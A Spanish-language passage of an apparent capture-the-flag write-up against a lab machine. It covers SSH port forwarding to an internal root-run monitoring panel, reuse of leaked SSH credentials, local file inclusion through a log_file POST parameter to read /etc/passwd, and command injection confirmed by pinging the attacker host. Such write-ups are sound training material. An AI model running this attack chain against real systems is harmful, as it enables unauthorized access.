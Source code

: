 Visualizo que se encuentra el puerto 8080 el cual no se veía en el escaneo de inicial de puertos, observo tambien que lo corre el usuario con UID 0, es decir root, utilizo ssh para realizar un local port forwarding y traer el puerto 8080 de la máquina a mi puerto 8080.

```bash
ssh -L 8080:127.0.0.1:8080 amay@10.10.11.28 -N
```

Al acceder a http://127.0.0.1:8080 encuentro un panel de autenticación básica de usuario y contraseña

![imagen](https://github.com/user-attachments/assets/6961c4b5-a0e8-4d79-84d5-9bfe68cf2358)

Pruebo con las credenciales ssh amay:mychemicalromance y consigo acceder a un panel de monitorización del sistema, donde se permiten realizar diferentes acciones como ver el uso del disco, actualizar el sistema, limpiar y visualizar los logs de apache y ssh entre otras cosas

![imagen](https://github.com/user-attachments/assets/e37f479b-a88a-4ed1-8b53-f2eb6d209fbc)

Hago clic sobre analizar los logs de apache, y visualizo en el apartado Network de las herramienta de desarrollo una petición por POST, se incluyen el parámetro log_file donde se apunta hacia el archivo de los logs de apache /var/log/apache2/access.log

![imagen](https://github.com/user-attachments/assets/6d8fab91-9d2a-414e-aaab-5095ae21c554)

Intercepto la petición con BurpSuite e intento acontecer un Local File Inclusion apuntando hacia otro recurso del sistema como por ejemplo el archivo /etc/passwd, lo que me permite ver que es vulnerable a LFI.

![imagen](https://github.com/user-attachments/assets/829f1d7f-5e25-4181-9ee9-b5c416774cd0)

![imagen](https://github.com/user-attachments/assets/14612672-faa7-4554-84b8-a33d87a72a01)

Intenté realizar un envenenamiento de los logs de apache para realizar un LFI to RCE pero no obtuve exito, ahora intentaré realizar una inyección de comandos, intentando inyectar un punto y coma y enviar un ping a mi máquina de atacante pudiendo ver si obtengo la traza icmp poniendome en escucha con tcpdump.

![imagen](https://github.com/user-attachments/assets/02442211-a6c2-4520-9573-253fcc11e14d)

```bash
tcpdump -i tun0 -vn icmp
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:50:17.458039 IP (tos 0x0, ttl 63, id 37768, offset 0, flags [DF], proto ICMP (1), length 84)
    10.10.11.28 > 10.10.14.160: ICMP echo request, id 2, seq 1, length 64
21:50:17.458076 IP (tos 0x0, ttl 64, id 34405, offset 0, flags [none], proto ICMP (1), length 84)
    10.10.14.160 > 10.10.11.28: ICMP echo reply, id 2, seq 1, length 64
21:50:18.458908 IP (tos 0x0, ttl 63, id 37874, offset 0, flags [DF], proto ICMP (1), length 84)
    10.10.11.28 > 10.10.14.160: ICMP echo request, id 2, seq 2, length 64
21:50:18.458930 IP (tos 0x0, ttl 64, id 34645, offset 0, flags [none], proto ICMP (1), length 84)
    10.10.14.160 > 10.10.11.28: ICMP echo reply, id 2, seq 2, length 64
21:50:19.460592 IP (tos 0x0, ttl 63, id 38066, offset 0, flags [DF], proto ICMP (1), length 84)
    10.10.11.28 > 10.10.14.160: ICMP echo request, id 2, seq 3, length 64
21:50:19.460616 IP (tos 0x0, ttl 64, id 34909, offset 0, flags [none], proto ICMP (1), length 84)
    10.10.14.160 > 10.10.11.28: ICMP echo reply, id 2, seq 3, length 64
```
